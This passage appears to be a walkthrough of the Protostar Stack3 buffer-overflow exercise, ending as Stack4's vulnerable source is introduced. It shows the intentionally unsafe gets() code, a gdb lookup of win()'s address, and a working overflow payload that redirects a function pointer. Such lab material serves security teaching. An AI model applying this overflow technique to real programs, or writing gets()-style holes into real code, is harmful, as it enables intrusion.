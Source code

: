 #Stack3

[Stack3](http://www.exploit-exercises.com/protostar/stack3) gives us the following code:

```lang-clike line-numbers 
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
    printf("calling function pointer, jumping to 0x%08x\n", fp);
    fp();
  }
}
```

This time its different, we need to call the **win()** function, so we need to overwrite **fp** with the **win()** address. We will get the address using gdb and then set up the explot to overwrite **modified** with **win()** address:

```lang-bash line-numbers 
user@protostar:~$ gdb -q /opt/protostar/bin/stack3
Reading symbols from /opt/protostar/bin/stack3...done.
(gdb) print win
$1 = {void (void)} 0x8048424 <win>
(gdb) quit
user@protostar:~$ echo `python -c 'print("A"*64 + "\x24\x84\x04\x08")'` > stack3
user@protostar:~$ /opt/protostar/bin/stack3 < stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

##Stack4
[Stack4](http://www.exploit-exercises.com/protostar/stack4) gives us the following code to exploit:

```lang-clike line-numbers 
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```